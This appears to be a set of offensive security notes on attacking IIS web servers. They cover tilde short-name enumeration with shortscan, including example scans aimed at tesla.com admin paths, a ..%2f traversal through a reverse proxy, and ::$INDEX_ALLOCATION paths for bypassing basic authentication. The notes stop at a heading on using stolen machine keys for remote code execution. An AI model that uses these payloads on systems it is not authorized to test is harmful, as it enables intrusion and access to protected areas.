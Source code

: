 ```
IIS Tilde Enumeration (Burp Extension)
https://github.com/projectmonke/shortnameguesser
https://github.com/bitquark/shortscan

> shortscan https://url/
> shortscan https://tesla.com/
> shortscan https://tesla.com/admin/
> shortscan https://tesla.com/admin/dashboard

Note: any valid dir endpoint such as 403,401,200 etc, scan that endpoint again!!

JetBrains dotPeek -> to analyze files such as dll file and export the source of that file

```

![image](https://github.com/user-attachments/assets/e348cbed-67f2-4349-85e8-0fbe14eeda66)

![image](https://github.com/user-attachments/assets/97103bd4-ab96-475e-9590-f202b7e01288)

![image](https://github.com/user-attachments/assets/136d5860-da66-4a95-9952-4bafb64ef40f)

![image](https://github.com/user-attachments/assets/b2444e85-6da7-4a3c-947c-b316101063fb)

![image](https://github.com/user-attachments/assets/dce6329d-7fb3-44b5-9fef-bd448d254232)

![image](https://github.com/user-attachments/assets/70b39cea-a422-4f28-9c3c-c151207ef6a7)

![image](https://github.com/user-attachments/assets/e6367f59-3af5-4c22-8973-3c622837c481)

![image](https://github.com/user-attachments/assets/96e14bc8-bb20-4981-80dc-5833215590d1)

## Reverse proxy misconfiguration:

```
If you can find a place where there is a reverse proxy on IIS, you can traverse on the backend server using ..%2f
http://10.0.0.1/admin/ -> http://10.0.0.1/
try /anything/..%2fadmin -> http://10.0.0.1/admin
```

## Basic Authentication bypass (IIS 7.5)

You can try to mix this vulnerability and the last one to find new folders and bypass the authentication.

```
/admin:$i30:$INDEX_ALLOCATION/admin.php
/admin::$INDEX_ALLOCATION/admin.php
```

## Grab the machine keys from web.conf to pivot to RCE:
